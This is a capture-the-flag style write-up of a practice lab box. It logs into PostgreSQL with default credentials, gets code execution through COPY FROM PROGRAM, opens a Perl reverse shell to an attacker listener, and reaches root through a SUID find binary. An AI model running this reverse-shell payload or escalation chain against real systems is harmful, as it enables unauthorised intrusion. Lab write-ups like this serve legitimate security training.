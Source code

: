 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Starting with a simple `nmap` scan to identify the attack surface.

## port scan
```bash
$ nmap -p- -sV 192.168.183.47
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-09 14:41 EST
Nmap scan report for 192.168.183.47
Host is up (0.023s latency).

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.7
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.32 seconds
```

## port 21 (`FTP`)
> No `anonymous` access allowed.
{: .prompt-danger }

## port 22 (`SSH`)
> No weak passwords identified for `root` account or remote `root` login disabled.
{: .prompt-danger }

## port 80 (web server)
> Simple web site without interactive content.  
> `gobuster` does not reveal anything useful.
{: .prompt-danger }

## port 5437 (`postgres`)
> Uses weak credentials `postgres:postgres`.
{: .prompt-info }

---

# exploitation
## weak credentials postgres
Logging in to console with `psql` and credentials `postgres:postgres`.

```bash
$ psql -h 192.168.183.47 -p 5437 -U postgres postgres
Password for user postgres: 
psql (14.1 (Debian 14.1-1), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.
postgres=# \l
                                  List of databases
   Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-----------+----------+----------+-------------+-------------+-----------------------
 postgres  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
           |          |          |             |             | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
           |          |          |             |             | postgres=CTc/postgres
(3 rows)
```

## getting remote code execution
Researching on `Google` for `RCE` with `postgres` leads to the following [`medium`](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) blog post.  
The plan is to spawn a reverse shell to send commands to the target interactively.

### start listener on attacker machine
```bash
$ nc -lvp 80                                           
listening on [any] 80 ...
```

### send commands to `postgres` console
```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

### catch reverse connection from target
```bash
$ nc -lvp 80                                           
listening on [any] 80 ...
192.168.183.47: inverse host lookup failed: Unknown host
connect to [192.168.49.183] from (UNKNOWN) [192.168.183.47] 40076
whoami
postgres
```

> Code Execution!
{: .prompt-info }

---

# post exploitation

## first flag
```bash
cat /home/wilson/local.txt
b******************************3
```

## privilege escalation
Identify `SUID` binaries which might be useful

```bash
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51184 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwxr-sr-x 1 root shadow 31000 Jul 27  2018 /usr/bin/expiry
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwxr-sr-x 1 root shadow 71816 Jul 27  2018 /usr/bin/chage
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwxr-sr-x 1 root ssh 321672 Jan 31  2020 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 34896 Jan  7  2019 /usr/bin/fusermount
-rwxr-sr-x 1 root mail 18944 Dec  3  2017 /usr/bin/dotlockfile
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwxr-sr-x 1 root tty 14736 May  4  2018 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwxr-sr-x 1 root tty 34896 Jan 10  2019 /usr/bin/wall
-rwxr-sr-x 1 root crontab 43568 Oct 11  2019 /usr/bin/crontab
-rwsr-xr-x 1 root root 315904 Feb 16  2019 /usr/bin/find
-rwsr-xr-x 1 root root 157192 Feb  2  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwxr-sr-x 1 root shadow 39616 Feb 14  2019 /usr/sbin/unix_chkpwd
```

`find` can be used to get `root` privileges. ([gtfobins](https://gtfobins.github.io/gtfobins/find/#suid)).

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
# whoami
whoami
root
```

> Root! Whoop whoop!
{: .prompt-info }

## second flag

```
# cd /root
cd /root
# ls
ls
proof.txt
# cat proof.txt
cat proof.txt
5******************************e
```

Pwned! <@:-)

